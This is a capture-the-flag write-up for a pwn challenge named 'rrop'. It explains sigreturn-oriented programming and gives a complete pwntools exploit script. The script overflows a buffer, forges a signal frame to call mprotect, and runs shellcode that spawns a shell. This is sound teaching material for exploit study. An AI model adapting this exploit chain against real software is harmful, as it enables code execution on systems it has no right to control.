 # Pwn Challenge

## Name: rrop

### Description:

`
 You came this far using Solar Designer technique and advance technique, now you are into the gr4n173 world where you can't win just with fake rope/structure but here you should fake the signal which is turing complete. 
`

**Author: gr4n173**

#### nc rrop.darkarmy.xyz 7001


**Solution:**

Main aim of this challenge was to make you familiar with `SIGROP` where you have to set up fake signal frames and initiate returns from signals that the kernel never really delivered. This is possible, because UNIX stores signal frames on the process’ stack.

Instead of storing the information in the kernel itself, it stores on the stack of process that is recipient of the signal. Prior to invoking the signal handler, kernel pushes (architecture-specific) variant of the (sigcontext) structure onto the process's stack which includes the register information etc. Hence when the signal handler completed it's job, it calls sigreturn which stores all the information on the stack and system call sets the values of all registers directly from the stack.

So in order to exploit the this challenge using `SIGROP/SGROP` we can make a call to `sigreturn` and create our desired set of registers. You can fake frame your self step by step but `pwntools` have a call function which will allow you to just setup the structure with the required register you want.

You set the desired set of registers using pwntools as shown below below.

```
#call the function from pwntools
frame = SigreturnFrame() 

#desired registers so that we can read/write the flag and print it.
#frame.rax = 0x1
frame.rax = constants.SYS_write
#frame.rdi = 0x1
frame.rdi = constants.STDOUT_FILENO
frame.rsi = flag_addr #writable addess
frame.rdx = 50 # just the random read which just print the text less than 50 characters
frame.rip = syscall #start the execution of the program from the label syscall
```


**Exploit:**

*At first:*
 You have to adjust the payload according to the shellcode required and then rax address was called( `0xf(syscall of sigreturn)`). 
 
*At second:*
Desired register were created by calling the `mprotect` so that we can use the shellcode we crafted before and the adjusting size of the stack frame.

```
from pwn import *

context.terminal= ['tmux', 'new-window']
context.arch= "amd64"
io = gdb.debug('./rrop')
#io = remote('34.126.91.169', 6003)
elf = ELF('./rrop')

shellcode = asm(shellcraft.amd64.linux.sh())

print(io.recvuntil('Buffer  @'))

leak_address = io.recvuntil(',').rstrip(',')
#print(leak_address)
shell_address = int(leak_address,16)
stack_address = int(leak_address[:11] + '000', 16)
#print(hex(stack_address))

log.info('Leak address ' + hex(shell_address))
log.info('Shell code : ' + hex(stack_address))

syscall     = 0x00000000004007d2 #0x000000000040053b
rax         = 0x00000000004007dc #0x0000000000400545
ret         = 0x00000000004007d4 #0x000000000040054a

offset      = 216

print(io.recvuntil('my process.\n'))

#Here you adjusted the payload according to the shellcode required and then we rax address was call to `0xf(syscall of sigreturn)`.
payload = shellcode
payload = payload.ljust(offset,'A')
payload += p64(rax) 
payload += p64(syscall)

# Here desired register were created by calling the mprotect so that we can use the shellcode we crafted before.

frame = SigreturnFrame()

frame.rax = 10
frame.rdi = stack_address
frame.rsi = 1000
frame.rdx = 7
frame.rsp = shell_address + len(payload) + 248
frame.rip = syscall

payload += str(frame)
payload += p64(shell_address)

io.sendline(payload)

io.interactive()
```



**Note:** If you want to learn more deep about `SIGROP` then you can read this research paper where this technique is explained in detail along it's use in real field of pwning.

[SIGROP Article Here](https://www.cs.vu.nl/~herbertb/papers/srop_sp14.pdf).
